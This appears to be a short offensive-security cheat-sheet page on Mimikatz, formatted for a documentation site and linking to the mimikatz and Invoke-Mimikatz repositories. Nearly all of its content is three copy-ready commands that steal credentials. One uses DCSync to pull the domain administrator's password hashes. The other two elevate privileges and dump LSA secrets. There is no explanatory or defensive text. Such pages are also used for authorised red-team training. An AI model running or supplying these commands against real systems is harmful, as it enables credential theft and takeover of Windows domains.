 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Mimikatz

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\administrator"'
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::secrets" "exit"'
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe privilege::debug token::elevate lsadump::secrets exit 
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="mimikatz.exe" %}
{% embed url="https://github.com/gentilkiwi/mimikatz/" %}
{% endtab %}

{% tab title="Invoke-Mimikatz.ps1" %}
{% embed url="https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1" %}
{% endtab %}
{% endtabs %}
